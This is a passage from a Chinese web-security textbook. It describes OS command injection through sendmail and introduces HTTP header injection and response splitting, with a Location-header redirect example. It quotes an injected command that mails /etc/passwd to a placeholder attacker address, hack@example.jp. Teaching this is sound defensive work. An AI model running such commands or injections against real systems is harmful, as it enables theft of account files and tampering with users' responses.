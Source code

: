  可见，sendmail 命令执行被分隔后，接下去就会执行 cat
  /etc/passwd | mail hack@example.jp 这样的命令了。结果，含有
  Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了
  hack@example.jp。

#### 11.2.4　HTTP 首部注入攻击
HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应
首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被
动攻击模式。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP
Response Splitting Attack）。

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字
段 Location 和 Set-Cookie。

![](asserts/103.png)

HTTP 首部注入可能像这样，通过在某些响应首部字段需要处理输出
值的地方，插入换行发动攻击。

HTTP 首部注入攻击有可能会造成以下一些影响。
- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP 响应截断攻击）
- HTTP 首部注入攻击案例  
  下面我们以选定某个类别后即可跳转至各类别对应页面的功能为
  例，讲解 HTTP 首部注入攻击。该功能为每个类别都设定了一个
  类别 ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的
  Location 首部字段内，形如 Location: http://example.com/?
  cat=101。令浏览器发生重定 向跳转。
